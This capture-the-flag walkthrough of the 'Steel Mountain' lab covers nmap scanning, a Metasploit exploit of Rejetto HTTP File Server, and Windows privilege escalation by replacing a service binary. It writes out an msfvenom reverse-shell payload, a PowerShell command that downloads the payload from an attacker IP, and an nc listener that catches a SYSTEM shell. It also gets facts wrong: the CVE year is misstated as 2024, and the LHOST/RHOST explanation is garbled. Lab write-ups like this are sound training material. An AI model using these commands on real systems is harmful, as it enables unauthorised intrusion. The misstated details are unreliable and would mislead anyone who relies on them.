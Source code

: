 # Steel Mountain

Directly starting from Task_2.

#### Question:Scan the machine with nmap. What is the other port running a web server on?

#### Solution:

#### Enumeration Part

Run the following nmap command in order to scan the target machine.

```bash 
sudo nmap -sS --top-ports 200 10.10.139.106
```
Open the link to see the output of nmap: 
![Alt text](../Screenshots/Steel_Mountain/nmap_output.png)

We can see that http-proxy is running on port 8080. So,
#### Answer: 8080

#### Question: Take a look at the other web server. What file server is running?
#### Solution:
Open the browser and enter the url along with port 8080 to see is there anything or not, 
I shown up a web page. Where there was a link for http file server as shown in the screenshot

![Alt text](../Screenshots/Steel_Mountain/file_server_link.png)

As I clicked, I shown up a page:
![Alt text](../Screenshots/Steel_Mountain/service_running.png)

#### Answer: Rejetto http file server

#### Question:What is the CVE number to exploit this file server?
#### Solution: 
I searched about it's vulnerabilities on google and found the correct cve number.
#### Answer: 2024-6287

#### Question: Use Metasploit to get an initial shell. What is the user flag?
#### Solution:
I opened metasplout using command:
`msfconsole`

Then I searched for hfs keyword using command:
`search hfs`

It showd me followind output:
![Alt text](../Screenshots/Steel_Mountain/metasploit_exploits.png)

Then I selected 4th exploit and then set it's values:
Conventionally, LHOST and LPORT means the attackers machine's informationa and LHSOT and LPORT means target's information. I filled that information and ran the exploit. See the output:
![Alt text](../Screenshots/Steel_Mountain/meterpreter.png)

Now, I changed my directory to `c:\Users\bill\Desktop\` and read the content of user.txt:
![Alt text](../Screenshots/Steel_Mountain/user_flag.png)

#### Privilege Escalation:
Now, We need to upload a PowerUp.ps1 file to target machine. For that purpose, download it via the given link and then use the command below to transfer the file to target machine:
`upload upload /path/to/PowerUp.ps1`
This path is the path of the script in your attacker machine.
![Alt text](../Screenshots/Steel_Mountain/upload_powerup.png)

Now, in meterpreter, hit the command:
`shell`
Then go to the path where Powerup.ps1 script is present and enter the followind command:
`powershell -c ". .\PowerUp.ps1; Invoke-AllChecks"`

Above command will shown up the service that can be exploited, a part of it is shown below:

![Alt text](../Screenshots/Steel_Mountain/script_output.png)

Now, I am going to replace the actual file with our maclicious file (payload), so when service will start, instead of running legitimate exe file, it will run maclicious file and we will get the root shell.

#### Creating paylod

using msfconsole, we can make our payload:
`msfvenom -p windows/shell_reverse_tcp LHOST=10.8.25.176 LPORT=4443 -f exe -o Advanced.exe`

now inside the shell of target machine, run the followind command to copy the payload from attacker's machine:
`powershell -NoP -NonI -C "Invoke-WebRequest -Uri 'http://10.8.25.176:8000/Advanced.exe' -OutFile $env:USERPROFILE\\Desktop\\ASCService.exe"`

Now I copied this payload to the desired path where legitimate exe file was present, I overwrite that with my payload:
`copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare"`
#### Error resolution: 
If you get error while copying it, then first stop the service and then try to copy. Command to stop the service is given ahead.

Now, I stopped the service using the command:
`net stop AdvancedSystemCareService9`
Now, run the netcat on our attacking machine, I ran with the command:
`nc -lvnp 4443`

Now, start the service using the command:
`net start AdvancedSystemCareService9`

Boom! We've got the root shell at our attacking machine.
![Alt text](../Screenshots/Steel_Mountain/root_shell.png)

Now, to get the flag, move the path "C:\Users\Administrator\Desktop", and run following command:
`type root.txt`
Here's the flag!.

![Alt text](../Screenshots/Steel_Mountain/root_flag.png)

